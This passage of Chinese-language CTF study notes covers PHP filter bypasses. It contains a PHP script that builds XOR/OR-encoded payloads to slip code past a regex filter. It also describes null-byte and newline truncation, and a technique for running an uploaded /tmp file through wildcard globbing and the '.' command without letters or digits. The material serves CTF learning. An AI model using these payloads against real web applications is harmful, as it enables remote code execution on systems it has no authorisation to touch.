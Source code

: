 ```php
                    }
                    if (strlen(dechex($k)) == 1) {
                        $temp2 = '0' . dechex($k);
                    } else {
                        $temp2 = dechex($k);
                    }
                    $output1 = $output1 . "%" . $temp1;
                    $output2 = $output2 . "%" . $temp2;
                    $flag = 1;
                    break;
                }
            }
            if ($flag === 1) {
                break;
            }
        }
    }
    // echo "output1:".$output1."\n"."output2:".$output2."\n";
    if ($mode === 1) {
        echo "code: (\"$output1\"^\"$output2\")";
    } else {
        echo "code: (\"$output1\"|\"$output2\")";
    }
}


$choose = 1; // 1 2 3分别对应异或，或，取反。
$preg = '/[A-Za-z0-9_\%\\|\~\'\,\.\:\@\&\*\+\- ]+/';  // 替换为要绕过的正则
// $preg = "/[a-z]/";
$code = "get_ctfshow_fl0g";  // 替换为要生成的代码

generate_code($preg, $code, $choose);

```



### 字符串截断

PHP中截断的方式：\00（空字符）截断、\0a（换行符）截断

若是linux命令，可以考虑使用||进行截断。

### 无数字字母RCE（php5

建议再读一下[p神文章]([无字母数字webshell之提高篇 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html?page=2#reply-list))

原理：使用Post方式向PHP上传文件的时候，Linux会在/tmp下生成一个九位字符的随机文件。此时使用通配符，/???/?????????有多种匹配结果，但随机文件的最后一个字符有时候可能为大写，因此通配符改为/???/????????[@-[]，即可匹配出这个文件。

匹配出这个文件后，可以直接使用. /???/????????[@-[]执行这个文件。.的用法如下：

```bash
. xxxfile # 等价于 source xxxfile
source xxxfile # 和上面等价，相当于执行这个文件，把这个文件当做shell脚本运行，重要的是不需要文件有x权限
./xxxfile # 相当于开辟一个子shell来执行这个文件，需要x权限
```
